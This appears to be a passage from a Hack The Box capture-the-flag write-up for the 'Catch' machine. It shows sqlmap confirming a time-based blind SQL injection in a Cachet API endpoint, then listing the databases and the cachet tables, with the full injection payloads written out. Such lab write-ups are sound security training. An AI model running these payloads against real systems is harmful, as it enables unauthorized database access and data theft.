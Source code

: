 We will now use sqlmap to check if the site is vulnerable to SQL Injection. From the output, it seems that the site is vulnerable to SQL Injection.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/catch]
└─$ sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" 
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.11#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:59:38 /2022-04-15/
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+'a'=? and 1=1) AND (SELECT 5402 FROM (SELECT(SLEEP(5)))OxdH)+--+
---
```

Next, we will use sqlmap to list all the databases on the web server

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/catch]
└─$ sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%27a%27)" --dbs 
available databases [5]:
[*] cachet
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Next, we will use sqlmap to list all the tables from the cachet database.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/catch]
└─$ sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%27a%27)" -D cachet --tables
+---------------------+
| actions             |
| cache               |
| component_groups    |
| components          |
| failed_jobs         |
| incident_components |
| incident_templates  |
| incident_updates    |
| incidents           |
| invites             |
| jobs                |
| meta                |
| metric_points       |
| metrics             |
| migrations          |
| notifications       |
| schedule_components |
```